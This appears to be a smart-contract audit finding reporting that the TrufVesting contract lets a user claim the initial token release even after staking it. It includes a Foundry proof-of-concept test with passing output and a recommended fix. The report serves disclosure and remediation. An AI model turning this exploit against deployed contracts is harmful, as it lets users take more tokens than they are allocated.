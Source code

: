 Dazzling Indigo Goblin

high

# Initial released TRUF can be claimed even after it's staked

## Summary
`claimable` function of `TrufVesting` contract does not validate if initial release tokens are already staked, thus including a vulnerability to claim initial release after it's staked.

## Vulnerability Detail
Here's a PoC for claiming initial release even after it's staked:
```Solidity
function testClaimLockedTokensBeforeCliff() public {
    // Setup Vesting
    vm.startPrank(owner);
    trufToken.approve(address(vesting), type(uint256).max);
    vesting.setVestingCategory(type(uint256).max, "Preseed", 1_000_000e18, false); // 1M TRUF
    // 10% initial release, 1 month cliff, 24 months vesting period
    vesting.setVestingInfo(0, type(uint256).max, TrufVesting.VestingInfo(1000, 3 days, 30 days, 24 * 30 days, 30 days));
    vesting.setUserVesting(0, 0, alice, 0, 10_000e18); // 10k TRUF
    vm.stopPrank();

    // Forward time to after initialPeriod, before cliff
    vm.warp(block.timestamp + 7 days);

    // Stake all TRUF to be vested
    vm.startPrank(alice);
    vesting.stake(0, 0, 10_000e18, 365 days);
    vm.stopPrank();

    // Alice still can claim initial release
    vm.startPrank(alice);
    vesting.claim(alice, 0, 0, 1_000e18); // 1k TRUF
    vm.stopPrank();

    assertEq(trufToken.balanceOf(alice), 1_000e18, "Alice should have 2k TRUF");
}
```

Result of running test:
```bash
Running 1 test for test/token/TrufVesting.t.sol:TrufVestingTest
[PASS] testClaimLockedTokensBeforeCliff() (gas: 811862)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.35ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
Users can claim more TRUF tokens than the amount they are allocated.

## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L164-L182

## Tool used
Manual Review, Foundry

## Recommendation
Before cliff period, `claimable` function should validate if initial release is locked by staking.